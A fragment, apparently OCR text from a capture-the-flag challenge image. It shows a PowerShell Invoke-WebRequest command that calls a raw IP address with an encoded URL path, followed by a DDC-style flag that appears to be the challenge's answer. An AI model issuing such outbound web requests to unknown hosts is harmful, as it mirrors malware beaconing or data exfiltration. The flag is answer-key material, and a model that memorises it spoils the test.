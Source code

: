 powershell -Command Invoke-WebRequest -Uri http://74.248.114.242/RERDezVZNU0wTjE1NFczNTBNM1dVSFV9

DDC{5Y5M0N154W350M3WUHU}